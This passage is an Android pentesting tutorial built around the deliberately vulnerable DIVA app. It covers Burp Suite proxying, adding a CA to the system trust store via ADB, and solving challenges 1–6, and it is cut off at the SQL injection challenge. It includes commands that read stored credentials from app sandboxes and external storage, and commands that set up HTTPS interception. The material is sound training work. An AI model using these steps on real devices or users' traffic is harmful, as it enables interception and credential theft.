



# Android Pentesting — Part 3: Installing DIVA, Capturing Traffic & Solving All 13 Challenges

> **Category:** Mobile Application Security | **Series:** Android Pentesting 101 | **Level:** Beginner to Advanced  
> **Prerequisites:** [Part 2 Guide](../Android%20Studio,%20ADB,%20Root%20&%20Non-Root%20Lab%20Setup/README.md) complete, rooted AVD running, ADB connected.  
> **Estimated Time:** ≈ 180–240 minutes (complete all 13 challenges)

---

<div align="center">


</div>

---

## Executive Overview

In **[Part 1](../Introduction,%20APK%20Analysis,%20JADX%20&%20MobSF/README.md)**, we explored the internal architecture of Android applications, unpacked APKs, decompiled Dalvik bytecode with JADX, and automated vulnerability scanning using MobSF. In **[Part 2](../Android%20Studio,%20ADB,%20Root%20&%20Non-Root%20Lab%20Setup/README.md)**, we established a resilient, production-grade assessment laboratory complete with Android Studio AVDs, root instrumentation, and ADB command-line mastery.

Now, it is time to shift from reconnaissance and infrastructure setup to **active vulnerability assessment and exploitation**.

In this guide, we introduce **DIVA (Damn Insecure and Vulnerable App)**—the industry-standard mobile security benchmark created by Payatu Technologies to simulate critical real-world Android application vulnerabilities. We will configure **Burp Suite Community** on Kali Linux, bridge emulator network traffic through our proxy, install custom Certificate Authority (CA) certificates directly into the Android system trust store, and systematically analyze and solve **all 13 DIVA challenges**.

```text
+---------------------------------------------------------------------------------------------------+
|                               Android Dynamic Assessment Workflow                                 |
+--------------------------+------------------------------------+-----------------------------------+
|  Target Application      |  Network Interception Layer        |  Vulnerability Assessment         |
|  - DIVA (Beta APK)       |  - Burp Suite Proxy (Kali Linux)   |  - 13 Vulnerability Vectors       |
|  - jakhar.aseem.diva     |  - Android QEMU Bridge (10.0.2.2)  |  - Static Bytecode Decompilation  |
|  - Native Library (.so)  |  - System Trust CA Injection       |  - Runtime ADB Instrumentation    |
|  - AndroidManifest.xml   |  - Full TLS / Cleartext Decryption |  - Remediation & Secure Coding    |
+--------------------------+------------------------------------+-----------------------------------+
```

> [!IMPORTANT]
> **Legal & Ethical Notice:** The exploitation techniques, ADB commands, and source code audits demonstrated in this guide are performed against an intentionally vulnerable educational application within an isolated sandbox. Never conduct security testing or attack maneuvers against applications or systems without explicit, documented authorization from the owner.

---

# 1. Target Overview & Setting Up DIVA

**DIVA (Damn Insecure and Vulnerable App)** was architected by Aseem Jakhar at Payatu Technologies as an intentionally vulnerable Android application designed to educate developers, penetration testers, and security researchers on common security flaws outlined in the **OWASP Mobile Application Security Verification Standard (MASVS)** and **OWASP Mobile Top 10**.



### Technical Specification of the Target

| Attribute | Value / Details |
| :--- | :--- |
| **Application Name** | DIVA (Damn Insecure and Vulnerable App) |
| **Package Identifier** | `jakhar.aseem.diva` |
| **Primary Authors** | Aseem Jakhar & Payatu Technologies |
| **Binary Formats** | Java Dalvik Bytecode (`classes.dex`) & Native C Shared Libraries (`libdivajni.so`) |
| **Vulnerability Scope** | Insecure Logging, Hardcoded Keys, Insecure Data Storage, SQL Injection, Path Traversal, Access Control Bypasses, Content Provider Leaks, Native Reversing, Native Buffer Overflows |

---

### Step 1.1: Deploy DIVA to the Emulator via ADB

Ensure your Android Virtual Device (AVD) from Part 2 is running and recognized by your host workstation:

```bash
# Verify active emulator connection
adb devices
```

*Expected output:*
```text
List of devices attached
emulator-5554   device
```

Deploy the DIVA APK using the Android Debug Bridge:

```bash
# Install DIVA onto the active emulator
adb install -r diva-beta.apk
```

> [!TIP]
> **Compatibility with Modern Android Emulators (Android 11 - 14 / API 30 - 34):**
> Because DIVA is a legacy vulnerable training application compiled with an older `targetSdkVersion`, modern Android OS versions may return an error: `INSTALL_FAILED_DEPRECATED_SDK_VERSION`. You can easily bypass this constraint on API 34+ by using the flag:
> ```bash
> adb install --bypass-low-target-sdk-block -r diva-beta.apk
> ```

Verify that the package was successfully registered in the Android Package Manager:

```bash
adb shell pm list packages | grep diva
# Output: package:jakhar.aseem.diva
```

---

### Step 1.2: Rapid Static Reconnaissance

Before touching the user interface, perform static reconnaissance using the tools from Part 1:

1. Decompile the Dalvik bytecode to Java using JADX:
   ```bash
   jadx -d diva_source diva-beta.apk
   ```
2. Inspect the application structure under `diva_source/sources/jakhar/aseem/diva/`.
3. Open `diva_source/resources/AndroidManifest.xml` to locate exported components, shared permissions, and application metadata.

```text
diva_source/sources/jakhar/aseem/diva/
├── MainActivity.java
├── LogActivity.java
├── HardcodeActivity.java
├── InsecureDataStorage1Activity.java
├── InsecureDataStorage2Activity.java
├── InsecureDataStorage3Activity.java
├── InsecureDataStorage4Activity.java
├── SQLInjectionActivity.java
├── InputValidation2URIActivity.java
├── AccessControl1Activity.java
├── APICredsActivity.java
├── AccessControl2Activity.java
├── APICreds2Activity.java
├── AccessControl3Activity.java
├── NotesProvider.java
├── Hardcode2Activity.java
├── InputValidation3Activity.java
└── DivaJni.java
```

---

# 2. Intercepting Traffic with Burp Suite Community

Capturing, decrypting, and manipulating network requests between an Android device and external APIs is a foundational requirement in mobile penetration testing.



---

### Step 2.1: Understanding Android Emulator Networking

The default Android Studio emulator operates inside a sandboxed virtual network managed by QEMU. Understanding the network layout prevents routing confusion:

| IP Address | Role in Emulator Virtual Network |
| :--- | :--- |
| **`10.0.2.15`** | The emulator's own internal IP address |
| **`10.0.2.2`** | Special alias pointing to the **host loopback interface (`127.0.0.1` on Kali)** |
| **`10.0.2.3`** | First DNS server |
| **`10.0.2.1`** | Default gateway / router |

Because `10.0.2.2` inside the emulator resolves directly to `127.0.0.1` on your Kali Linux host, configuring the proxy is seamless.

---

### Step 2.2: Configure Burp Suite Proxy Listener

1. Launch Burp Suite from your Kali terminal:
   ```bash
   burpsuite &
   ```
2. Navigate to **Settings** (or **Proxy -> Proxy settings**) -> **Tools** -> **Proxy** -> **Proxy Listeners**.
3. Highlight the default listener (`127.0.0.1:8080`) and click **Edit**.
4. In the **Binding** tab:
   - **Bind to port:** `8080`
   - **Bind to address:** Select **All interfaces** (or select your specific host IP on the bridge network).
   - Click **OK** and confirm the prompt.

```text
+-------------------------------------------------------------+
|                     Burp Proxy Listener                     |
+---------------------+-------------------+-------------------+
| Interface           | Port              | Running           |
+---------------------+-------------------+-------------------+
| All interfaces      | 8080              | [*] Enabled       |
+---------------------+-------------------+-------------------+
```

---

### Step 2.3: Route Emulator Traffic to Burp Suite

You can direct the emulator's traffic to your Burp listener using either the GUI or the command line.

#### Method A: Instant Global Proxy via ADB (Recommended)

Choose the target IP based on your lab topology:
* **Topology 1 (Native Kali / Single Machine):** If the emulator and Burp Suite run on the exact same machine, route via `10.0.2.2:8080` (the QEMU alias for host loopback):
  ```bash
  adb shell settings put global http_proxy 10.0.2.2:8080
  ```
* **Topology 2 (Cross-Platform: Windows Host Emulator + Kali VM Burp):** If the emulator runs on Windows and Burp Suite runs inside your Kali VM (e.g. `192.168.1.150`), route directly to your Kali VM's IP:
  ```bash
  adb shell settings put global http_proxy 192.168.1.150:8080
  ```

To verify the proxy is active:
```bash
adb shell settings get global http_proxy
```

To clear the proxy when finished:
```bash
adb shell settings put global http_proxy :0
# Or:
adb shell settings delete global http_proxy
```

#### Method B: Android UI Settings
1. On the emulator, navigate to **Settings -> Network & internet -> Internet** (or **Wi-Fi**).
2. Tap the gear icon next to **AndroidWifi** and select **Edit / Advanced options**.
3. Under **Proxy**, select **Manual**:
   - **Proxy hostname:** `10.0.2.2`
   - **Proxy port:** `8080`
   - **Bypass proxy for:** (leave blank)
4. Tap **Save**.

---

### Step 2.4: Install Burp CA Certificate into Android System Trust Store

Beginning in Android 7.0 (Nougat, API 24), Android changed its security model: **applications no longer trust user-installed certificates by default**. To intercept HTTPS traffic without modifying the application's `networkSecurityConfig`, we must install Burp's CA certificate directly into the **system root store** at `/system/etc/security/cacerts/`.


#### 1. Export Certificate from Burp
In Burp Suite:
- Go to **Proxy -> Proxy settings -> Tools -> Proxy -> Import / export CA certificate**.
- Select **Certificate in DER format** -> click **Next**.
- Save the file as `cacert.der` in your working directory.

#### 2. Convert Certificate Format & Compute Subject Hash
Android requires certificates in PEM format named with a specific 8-character hash based on the certificate subject (`<hash>.0`):

```bash
# Convert DER to PEM format
openssl x509 -inform DER -in cacert.der -out burp.pem

# Calculate the Android old subject hash (OpenSSL 1.0 compatible)
HASH=$(openssl x509 -inform PEM -subject_hash_old -in burp.pem | head -n 1)

echo "Calculated Hash: ${HASH}"
# Common default Burp hash: 9a5ba575

# Rename certificate to <hash>.0
cp burp.pem ${HASH}.0
```

#### 3. Inject Certificate into `/system` Partition
Using our root capabilities from Part 2 (`userdebug` or Google APIs image):

```bash
# Restart ADB daemon with root privileges
adb root

# Remount the system partition as read-write
adb remount

# If adb remount fails due to dm-verity or modern overlayfs:
# adb disable-verity && adb reboot
# adb root && adb remount

# Push the certificate directly into the system certificate store
adb push ${HASH}.0 /system/etc/security/cacerts/

# Set strict read permissions (rw-r--r--)
adb shell chmod 644 /system/etc/security/cacerts/${HASH}.0

# Set SELinux context
adb shell chcon u:object_r:system_file:s0 /system/etc/security/cacerts/${HASH}.0

# Reboot the emulator to commit system certificate caches
adb reboot
```

#### 4. Verification
Once the device reboots:
1. Open **Settings -> Security -> Encryption & credentials -> Trusted credentials**.
2. Select the **System** tab.
3. Scroll down to find **PortSwigger** (PortSwigger CA).
4. Open the browser on your emulator and navigate to `https://portswigger.net` or `https://google.com`.
5. Observe encrypted HTTPS traffic decrypting in real-time within **Burp Suite -> Proxy -> HTTP history** without TLS certificate warnings!

---

# 3. Solving All 13 DIVA Challenges

With our lab fully armed and our network proxy intercepting traffic, let's systematically break down all 13 challenges in DIVA.

```text
+---------------------------------------------------------------------------------------------------+
|                                 DIVA 13 Challenges Vulnerability Matrix                           |
+----+--------------------------------+----------------------------+--------------------------------+
| #  | Challenge Name                 | Vulnerability Category     | OWASP MASVS / CWE              |
+----+--------------------------------+----------------------------+--------------------------------+
| 01 | Insecure Logging               | Information Disclosure     | MASVS-STORAGE-3 / CWE-532      |
| 02 | Hardcoding Issues - Part 1     | Hardcoded Credentials      | MASVS-CRYPTO-1 / CWE-798       |
| 03 | Insecure Data Storage - Part 1 | SharedPreferences Plaintext| MASVS-STORAGE-1 / CWE-312      |
| 04 | Insecure Data Storage - Part 2 | Plaintext SQLite Database  | MASVS-STORAGE-1 / CWE-312      |
| 05 | Insecure Data Storage - Part 3 | Insecure Temporary Files   | MASVS-STORAGE-1 / CWE-377      |
| 06 | Insecure Data Storage - Part 4 | World-Readable External SD | MASVS-STORAGE-2 / CWE-276      |
| 07 | Input Validation - Part 1      | SQL Injection (SQLi)       | MASVS-CODE-2 / CWE-89          |
| 08 | Input Validation - Part 2      | Local Path Traversal / LFI | MASVS-CODE-3 / CWE-22          |
| 09 | Access Control - Part 1        | Unprotected Exported Activity| MASVS-PLATFORM-1 / CWE-284    |
| 10 | Access Control - Part 2        | Intent Parameter Spoofing  | MASVS-PLATFORM-1 / CWE-926     |
| 11 | Access Control - Part 3        | Content Provider Leak & SQLi| MASVS-PLATFORM-1 / CWE-926    |
| 12 | Hardcoding Issues - Part 2     | Reversing Native Libraries | MASVS-RESILIENCE-1 / CWE-798   |
| 13 | Input Validation - Part 3      | Native Stack Buffer Overflow| MASVS-CODE-4 / CWE-121        |
+----+--------------------------------+----------------------------+--------------------------------+
```

---

## Challenge 1: Insecure Logging

### 1. Objective & Scenario
The application prompts the user to enter a sensitive credit card number and click **Check Out**. Our objective is to determine if sensitive cardholder data is leaked through the Android logging system.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.LogActivity`:

```java
// Decompiled from LogActivity.java
public void checkout(View view) {
    EditText ccText = (EditText) findViewById(R.id.ccText);
    try {
        processCC(ccText.getText().toString());
    } catch (RuntimeException e) {
        // VULNERABLE: Sensitive financial data printed to system logs!
        Log.e("diva-log", "Error while processing transaction with CC: " + ccText.getText().toString());
        Toast.makeText(this, "An error occurred. Please try again later", 0).show();
    }
}

private void processCC(String cc) {
    throw new RuntimeException();
}
```

### 3. Vulnerability Analysis
The application deliberately triggers a `RuntimeException` and catches it. Inside the exception handler, the full credit card number entered by the user is concatenated into an error string and emitted to Android Logcat using `android.util.Log.e()` under the tag `diva-log`.

On Android devices, the system log buffer (`logcat`) is accessible via ADB. Prior to Android 4.1 (Jelly Bean), any app holding the `READ_LOGS` permission could read logs from all other apps. Even on modern Android, log messages are routinely harvested by crash-reporting libraries, analytics SDKs, physical forensics, and privileged desktop malware.

### 4. Exploitation Walkthrough
1. Launch DIVA on the emulator and open **1. INSECURE LOGGING**.
2. Enter a mock credit card number into the text field: `4111-2222-3333-4444`.
3. Click the **CHECK OUT** button. The UI displays an error toast: *"An error occurred. Please try again later"*.
4. From your Kali terminal, stream Logcat filtered by the tag `diva-log`:

```bash
adb logcat -d -s "diva-log:E"
```

*Output:*
```text
--------- beginning of main
E/diva-log( 7834): Error while processing transaction with CC: 4111-2222-3333-4444
```

The sensitive card number is dumped in cleartext to the system log stream.

### 5. Secure Remediation
1. **Never Log Sensitive Data:** Credit cards, passwords, API tokens, session IDs, and PII must never be passed to logging APIs.
2. **Strip Log Statements in Release Builds:** Configure ProGuard/R8 rules in `proguard-rules.pro` to automatically delete all `android.util.Log` calls in production:
   ```proguard
   -assumenosideeffects class android.util.Log {
       public static boolean isLoggable(java.lang.String, int);
       public static int v(...);
       public static int d(...);
       public static int i(...);
       public static int w(...);
       public static int e(...);
   }
   ```
3. **Use Controlled Logging Frameworks:** Implement Jake Wharton's `Timber` library with a tree that only emits logs in `DEBUG` builds:
   ```java
   if (BuildConfig.DEBUG) {
       Timber.plant(new Timber.DebugTree());
   }
   ```

---

## Challenge 2: Hardcoding Issues, Part 1

### 1. Objective & Scenario
The challenge screen presents an access key validation prompt. We must discover the valid vendor access key to unlock the feature without knowing it in advance.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.HardcodeActivity`:

```java
// Decompiled from HardcodeActivity.java
public class HardcodeActivity extends AppCompatActivity {
    private EditText mAccessKey;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_hardcode);
        this.mAccessKey = (EditText) findViewById(R.id.hcKey);
    }

    public void access(View view) {
        // VULNERABLE: Direct string comparison against a plaintext string literal
        if (this.mAccessKey.getText().toString().equals("vendorsecretkey")) {
            Toast.makeText(this, "Access granted! See you on the other side :)", 0).show();
        } else {
            Toast.makeText(this, "Access denied! See you in hell :D", 0).show();
        }
    }
}
```

### 3. Vulnerability Analysis
The authentication logic is performed client-side. The validation method directly checks the user input against a hardcoded string literal (`"vendorsecretkey"`). Because Dalvik bytecode can be trivially decompiled back to human-readable Java with JADX, any static asset or string compiled into an APK is fully transparent to an attacker.

### 4. Exploitation Walkthrough
1. Decompile the APK using JADX (or search decompiled strings):
   ```bash
   grep -rn "Access granted" diva_source/
   ```
   *Output points to:* `diva_source/sources/jakhar/aseem/diva/HardcodeActivity.java:23`.
2. Reviewing the source reveals the hardcoded secret:
   ```java
   this.mAccessKey.getText().toString().equals("vendorsecretkey")
   ```
3. In the DIVA app, enter `vendorsecretkey` into the input field and press **ACCESS**.
4. Result: The toast displays *"Access granted! See you on the other side :)"*.

### 5. Secure Remediation
1. **Move Authentication to the Backend:** Client applications should never make autonomous authorization decisions based on static embedded secrets. Secrets must reside on a hardened backend server.
2. **Token-Based Authentication:** Clients must authenticate users using credentials or asymmetric signatures, receiving short-lived OAuth2/JWT access tokens.
3. **Android Keystore for Device Keys:** If an application must store cryptographic keys locally, generate them inside the hardware-backed **Android Keystore** (`KeyStore.getInstance("AndroidKeyStore")`), ensuring private keys cannot be extracted from the device memory.

---

## Challenge 3: Insecure Data Storage, Part 1 (SharedPreferences)

### 1. Objective & Scenario
The user is asked to enter a username and password to "save" credentials locally. Our task is to locate where these credentials are stored and extract them from the device.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.InsecureDataStorage1Activity`:

```java
// Decompiled from InsecureDataStorage1Activity.java
public void saveCredentials(View view) {
    SharedPreferences.Editor spEdit = PreferenceManager.getDefaultSharedPreferences(this).edit();
    EditText usr = (EditText) findViewById(R.id.ids1Usr);
    EditText pwd = (EditText) findViewById(R.id.ids1Pwd);

    // VULNERABLE: Cleartext credentials committed to default SharedPreferences
    spEdit.putString("user", usr.getText().toString());
    spEdit.putString("password", pwd.getText().toString());
    spEdit.commit();
    Toast.makeText(this, "3rd party credentials saved successfully!", 0).show();
}
```

### 3. Vulnerability Analysis
Android's `SharedPreferences` framework stores key-value pairs in cleartext XML files inside the application's private sandbox directory:
`/data/data/<package_name>/shared_prefs/<package_name>_preferences.xml`

While the Linux sandbox restricts other normal applications from reading this file, the data is completely unencrypted. Anyone with root access, physical access via ADB backup (`allowBackup="true"`), or forensic extraction tools can immediately recover the stored credentials.

### 4. Exploitation Walkthrough
1. In DIVA, open **3. INSECURE DATA STORAGE - PART 1**.
2. Enter mock credentials:
   - **User:** `cyberadmin`
   - **Password:** `SuperP@ssw0rd2026!`
3. Click **SAVE CREDENTIALS**.
4. Drop into the device shell via ADB using root privileges and inspect the SharedPreferences XML file:

```bash
adb shell "su -c 'cat /data/data/jakhar.aseem.diva/shared_prefs/jakhar.aseem.diva_preferences.xml'"
```

*Output:*
```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="password">SuperP@ssw0rd2026!</string>
    <string name="user">cyberadmin</string>
</map>
```

Both the username and raw password are recovered directly from disk.

### 5. Secure Remediation
Use the Android Jetpack **EncryptedSharedPreferences** library (`androidx.security.crypto`), which encrypts keys and values using AES-256 backed by a hardware master key:

```java
// Secure Implementation using Android Jetpack Security
MasterKey masterKey = new MasterKey.Builder(context)
    .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
    .build();

SharedPreferences encryptedSharedPreferences = EncryptedSharedPreferences.create(
    context,
    "secure_prefs",
    masterKey,
    EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
    EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
);

encryptedSharedPreferences.edit()
    .putString("auth_token", authToken)
    .apply();
```

---

## Challenge 4: Insecure Data Storage, Part 2 (SQLite Database)

### 1. Objective & Scenario
The challenge provides an interface to save user credentials into an internal SQLite database. We need to locate the database file and extract the table contents.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.InsecureDataStorage2Activity`:

```java
// Decompiled from InsecureDataStorage2Activity.java
public class InsecureDataStorage2Activity extends AppCompatActivity {
    private SQLiteDatabase mDB;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_insecure_data_storage2);
        try {
            // VULNERABLE: Unencrypted SQLite database opened with MODE_PRIVATE
            this.mDB = openOrCreateDatabase("mrawdatabase", 0, null);
            this.mDB.execSQL("CREATE TABLE IF NOT EXISTS myuser(user VARCHAR, password VARCHAR);");
        } catch (Exception e) {
            Log.d("Diva", "Error occurred while creating database: " + e.getMessage());
        }
    }

    public void saveCredentials(View view) {
        EditText usr = (EditText) findViewById(R.id.ids2Usr);
        EditText pwd = (EditText) findViewById(R.id.ids2Pwd);
        try {
            // VULNERABLE: Inserting raw plaintext credentials
            this.mDB.execSQL("INSERT INTO myuser VALUES ('" + usr.getText().toString() + "', '" + pwd.getText().toString() + "');");
            Toast.makeText(this, "3rd party credentials saved successfully!", 0).show();
        } catch (Exception e) {
            Log.d("Diva", "Error occurred while inserting into database: " + e.getMessage());
        }
    }
}
```

### 3. Vulnerability Analysis
The application creates a standard, unencrypted SQLite database named `mrawdatabase` located at:
`/data/data/jakhar.aseem.diva/databases/mrawdatabase`

SQLite databases created with Android's default `openOrCreateDatabase` or `SQLiteOpenHelper` are unencrypted flat files. Anyone who gains access to the database file can parse all tables, rows, and relationships without needing a key.

### 4. Exploitation Walkthrough
1. In DIVA, open **4. INSECURE DATA STORAGE - PART 2**.
2. Enter sensitive credentials:
   - **User:** `db_analyst`
   - **Password:** `ConfidentialPassphrase99!`
3. Tap **SAVE CREDENTIALS**.
4. Query the database using `sqlite3` directly from the ADB shell:

```bash
adb shell "su -c 'sqlite3 /data/data/jakhar.aseem.diva/databases/mrawdatabase \"SELECT * FROM myuser;\"'"
```

*Output:*
```text
db_analyst|ConfidentialPassphrase99!
```

Alternatively, pull the raw SQLite database file to your Kali machine and examine it using GUI tools:

```bash
# Pull the SQLite database to Kali
adb root
adb pull /data/data/jakhar.aseem.diva/databases/mrawdatabase ./mrawdatabase.db

# Inspect tables with sqlite3
sqlite3 ./mrawdatabase.db ".dump myuser"
```

### 5. Secure Remediation
1. **Encrypt the Database with SQLCipher:** Replace the standard Android SQLite library with **SQLCipher for Android** (`net.zetetic:android-database-sqlcipher`), which transparently encrypts every database page using 256-bit AES:
   ```java
   // Secure Implementation with SQLCipher
   SQLiteDatabase.loadLibs(context);
   byte[] passphrase = getSecureKeyFromAndroidKeystore();
   net.zetetic.database.sqlcipher.SQLiteDatabase db = 
       net.zetetic.database.sqlcipher.SQLiteDatabase.openOrCreateDatabase(dbFile, passphrase, null, null);
   ```
2. **Never Store Cleartext Passwords:** Store salted cryptographic hashes (e.g. Argon2id or PBKDF2) instead of reversible passwords.

---

## Challenge 5: Insecure Data Storage, Part 3 (Temporary Files)

### 1. Objective & Scenario
The application creates a "temporary" record for user credentials. We must identify where the temporary file is created on the filesystem and retrieve its contents.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.InsecureDataStorage3Activity`:

```java
// Decompiled from InsecureDataStorage3Activity.java
public void saveCredentials(View view) {
    EditText usr = (EditText) findViewById(R.id.ids3Usr);
    EditText pwd = (EditText) findViewById(R.id.ids3Pwd);
    File dDir = getCacheDir();
    try {
        // VULNERABLE: Temporary file created in internal cache directory and never cleaned up
        File uFile = File.createTempFile("uinfo", "tmp", dDir);
        FileWriter fw = new FileWriter(uFile);
        fw.write(usr.getText().toString() + ":" + pwd.getText().toString());
        fw.close();
        Toast.makeText(this, "3rd party credentials saved successfully!", 0).show();
    } catch (Exception e) {
        Toast.makeText(this, "File error occurred", 0).show();
    }
}
```

### 3. Vulnerability Analysis
The method `File.createTempFile("uinfo", "tmp", getCacheDir())` generates a temporary file inside `/data/data/jakhar.aseem.diva/cache/`. Notice that:
- The credentials are written in raw format: `username:password`.
- The file is **never deleted** (`deleteOnExit()` is not called).
- The file persists indefinitely in the cache directory until manual deletion or system low-memory cleanup.

### 4. Exploitation Walkthrough
1. In DIVA, open **5. INSECURE DATA STORAGE - PART 3**.
2. Enter credentials:
   - **User:** `cache_user`
   - **Password:** `TempSecretPass#2026`
3. Click **SAVE CREDENTIALS**.
4. Enumerate the internal cache directory via ADB:

```bash
adb shell "su -c 'ls -la /data/data/jakhar.aseem.diva/cache/'"
```

*Output:*
```text
-rw------- 1 u0_a132 u0_a132 32 2026-10-19 17:15 uinfo2847291847192.tmp
```

5. Read the contents of the temporary file:

```bash
adb shell "su -c 'cat /data/data/jakhar.aseem.diva/cache/uinfo*.tmp'"
```

*Output:*
```text
cache_user:TempSecretPass#2026
```

### 5. Secure Remediation
1. **Avoid Storing Sensitive Data in Temp Files:** Store sensitive state variables in volatile memory (RAM) and wipe arrays (`Arrays.fill(passwordArray, '0')`) when no longer needed.
2. **Enforce Immediate Deletion:** If a file must be created, ensure it is deleted immediately after processing inside a `finally` block:
   ```java
   File tempFile = null;
   try {
       tempFile = File.createTempFile("secure_tmp", null, context.getCacheDir());
       // Process file...
   } finally {
       if (tempFile != null && tempFile.exists()) {
           tempFile.delete();
       }
   }
   ```
3. **Use EncryptedFile:** Utilize Android Jetpack `EncryptedFile` if data must be written to disk.

---

## Challenge 6: Insecure Data Storage, Part 4 (External Storage / SD Card)

### 1. Objective & Scenario
The app writes user credentials to "external storage". Our goal is to extract these credentials **without requiring root privileges**, demonstrating the massive danger of shared storage leaks.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.InsecureDataStorage4Activity`:

```java
// Decompiled from InsecureDataStorage4Activity.java
public void saveCredentials(View view) {
    EditText usr = (EditText) findViewById(R.id.ids4Usr);
    EditText pwd = (EditText) findViewById(R.id.ids4Pwd);
    try {
        // VULNERABLE: Sensitive credentials written to the shared SD Card directory
        File uFile = new File(Environment.getExternalStorageDirectory(), ".uinfo.txt");
        FileWriter fw = new FileWriter(uFile);
        fw.write(usr.getText().toString() + ":" + pwd.getText().toString());
        fw.close();
        Toast.makeText(this, "3rd party credentials saved successfully!", 0).show();
    } catch (Exception e) {
        Toast.makeText(this, "File error occurred", 0).show();
    }
}
```

### 3. Vulnerability Analysis
The method `Environment.getExternalStorageDirectory()` resolves to `/sdcard/` (or `/storage/emulated/0/`).
- Unlike the internal sandbox (`/data/data/`), **external storage is globally accessible** to all apps on the device that hold the standard `READ_EXTERNAL_STORAGE` permission (on Android 9 and older).
- Even though the file begins with a dot (`.uinfo.txt`) to hide it in basic file browsers, it possesses **zero confidentiality guarantees**.
- **No root access is required** to extract this file!

```text
+-------------------------------------------------------------------------------+
|                            Android Storage Sandbox Hierarchy                  |
+--------------------------------------+----------------------------------------+
|  Internal Storage (/data/data/...)   |  External Storage (/sdcard/...)        |
|  - Strictly isolated by Linux UID    |  - Globally readable shared storage    |
|  - Accessible only by owning app     |  - ANY application with READ_STORAGE   |
|  - Protected by OS sandbox           |  - NO Sandbox Protection!              |
+--------------------------------------+----------------------------------------+
```

### 4. Exploitation Walkthrough
1. In DIVA, open **6. INSECURE DATA STORAGE - PART 4**.
2. Enter credentials:
   - **User:** `sdcard_victim`
   - **Password:** `LeakedToEveryApp123!`
3. Click **SAVE CREDENTIALS**.
4. Read the file from standard ADB shell (as unprivileged `shell` user, without `su`):

```bash
adb shell cat /sdcard/.uinfo.txt
```

*Output:*
```text
sdcard_victim:LeakedToEveryApp123!
```

Any malicious application installed on the same phone requesting storage access can silently steal this file in the background.

### 5. Secure Remediation
1. **Adhere to Scoped Storage (Android 10+ / API 29+):** Never write sensitive application data to shared public directories.
2. **Store Exclusively in Internal Private Storage:**
   ```java
   // Secure Implementation: App-specific internal storage
   File secureFile = new File(context.getFilesDir(), "user_data.dat");
   FileOutputStream fos = context.openFileOutput("user_data.dat", Context.MODE_PRIVATE);
   ```

---

## Challenge 7: Input Validation, Part 1 (SQL Injection)

### 1. Objective & Scenario
The challenge allows searching for user details by entering a username. Our objective is to exploit input validation weaknesses to dump the entire database table without knowing usernames in advance.

### 2. Static Code Audit (JADX)
Open `jakhar.aseem.diva.SQLInjectionActivity`:

```java
// Decompiled from SQLInjectionActivity.java
public void search(View view) {
    EditText usr = (EditText) findViewById(R.id.sqliUsr);
    try {
